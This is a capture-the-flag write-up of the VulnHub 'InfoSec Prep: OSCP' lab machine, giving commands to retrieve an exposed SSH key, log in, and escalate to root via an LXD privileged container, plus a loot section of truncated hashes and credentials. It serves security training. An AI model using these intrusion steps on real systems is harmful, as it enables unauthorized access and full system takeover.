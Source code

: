 [VulnHub] InfoSec Prep: OSCP
===============
date: 10/Aug/2020
summary: This is a writeup for VulnHub machine Infosec Prep: OSCP.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [InfoSec Prep: OSCP](https://www.vulnhub.com/entry/infosec-prep-oscp,508/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_infosecpreposcp/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_infosecpreposcp/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.41 ((Ubuntu))`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_ssh_privatekeys](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [privesc_lxc_bash](https://github.com/7h3rAm/writeups#privesc_lxc_bash)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Mon Jul 20 12:03:57 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/xml/_quick_tcp_nmap.xml 192.168.119.198
Nmap scan report for 192.168.119.198
Host is up, received user-set (0.0022s latency).
Scanned at 2020-07-20 12:04:12 IST for 9s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 20 12:04:21 2020 -- 1 IP address (1 host up) scanned in 24.59 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/openports.png.webp)  

3\. We find `80/tcp` to be open. Upon browsing the webpage we see that it looks to be a Wordpress blog with a post named "OSCP Voucher". This posts lists the process to submit the flag and also mentions that there's a user named `oscp` on this machine:  

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot01.png.webp)  

4\. The `gobuster` scan result confirms that this is a Wordpress blog. We see an interesting entry `secret.txt` from `gobuster` scan results and also from the `robots.txt` file:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot02.png.webp)  

![writeup.enumeration.steps.4.2](/static/files/posts_vulnhub_infosecpreposcp/screenshot03.png.webp)  

5\. This file has base64 encoded content that we decode to find a SSH private key file:  
```
curl http://192.168.119.198/secret.txt | base64 -d -
```

![writeup.enumeration.steps.5.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot04.png.webp)  

### Findings
#### Open Ports
```
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux protocol 2.0)
80/tcp      http       Apache httpd 2.4.41 ((Ubuntu))
33060/tcp   socks5
```
#### Files
```
http://192.168.119.198/secret.txt
http://192.168.119.198/license.txt
```
#### Users
```
ssh: oscp
wordpress: admin
```

## Phase #2: Exploitation
1\. We can try to SSH into the machine as user `oscp` using the SSH private key file. First, we need to set right permissions to the key file and then use it for login:  
```
curl http://192.168.119.198/secret.txt | base64 -d - >./sshkey.pvt
chmod 600 sshkey.pvt
ssh -i sshkey.pvt oscp@192.168.119.198
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot05.png.webp)  

2\. We successfully login and get interactive access of the machine as user `oscp`:  

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot06.png.webp)  


## Phase #2.5: Post Exploitation
```
oscp@oscp> id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
oscp@oscp>  
oscp@oscp> uname
Linux oscp 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
oscp@oscp>  
oscp@oscp> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 192.168.119.198  netmask 255.255.255.0  broadcast 192.168.119.255
  inet6 fe80::20c:29ff:fee6:a4ab  prefixlen 64  scopeid 0x20<link>
  ether 00:0c:29:e6:a4:ab  txqueuelen 1000  (Ethernet)
  RX packets 389730  bytes 88031188 (88.0 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 297471  bytes 52912167 (52.9 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 694  bytes 64212 (64.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 694  bytes 64212 (64.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
oscp@oscp>  
oscp@oscp> users
root
oscp
```

## Phase #3: Privilege Escalation
1\. From the output of command `id`, we see that the user `oscp` is a member of `lxd` group. We can exploit this misconfiguration to create a dummy container that mounts the local file system and gain access to all privileged files. But we see that the `lxc` command for this to work is not found in our current environment path:  
```
lxc init ubuntu:16.04 test -c security.privileged=true
  -bash: lxc: command not found
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot09.png.webp)  

2\. We locate the file and use it's absolute path to create the container. This time we see another error about storage pool. The error message helpfully points us in the right direction and we need to initialize LXD first. We use the suggested command with the absolute path and choose default settings when prompted for a change:  
```
/snap/bin/lxd init
/snap/bin/lxc init ubuntu:16.04 test -c security.privileged=true
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
/snap/bin/lxc start test
/snap/bin/lxc exec test bash
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot10.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_vulnhub_infosecpreposcp/screenshot11.png.webp)  

![writeup.privesc.steps.2.3](/static/files/posts_vulnhub_infosecpreposcp/screenshot12.png.webp)  

![writeup.privesc.steps.2.4](/static/files/posts_vulnhub_infosecpreposcp/screenshot13.png.webp)  

## Learning/Recommendation
* The SSH key for a user on the target machine was exposed via web application. Although the file was base64 encoded and listed within `robots.txt`, it doesn't stop an attacker from accessing it.
* The local user was member of the LXD group which allowed to create a privileged container with access to the entire file system. This lead to complete access of files, even those that have been restricted to `root` user only.

## Loot
### Hashes
```
oscp:$6$k8OEgwaFdUqpVETQ$sKlBojI3IYunw8wEDAyoFdHgVtOPzkDPqksql7IWzpfZXpd3UqP569BokTZ52mDroq/rmJY9zgfeQVmB.........................
root:$6$.wvqHr9ixq/hDW8t$a/dHKimULfr5rJTDlS7uoUanuJB2YUUkh.LWSKF7kTNp4aL8UTlOk2wT8IkAgJ.vDF/ThSIOegsuclEg.........................
```
### Credentials
```
mysql: wordpress/Oscp12....
wordpress: admin:$P$Bx9ohXoCVR5lkKtuQbuWuh2........
```
### Flags
```
/mnt/root/root/flag.txt: d73b04b0e696b0945283d...........
```

## References
* <https://www.vulnhub.com/entry/infosec-prep-oscp,508/>  
* <https://reboare.github.io/lxd/lxd-escape.html>  
* <https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation>  
* <https://medium.com/@falconspy/infosec-prep-oscp-vulnhubwalkthrough-a09519236025>  
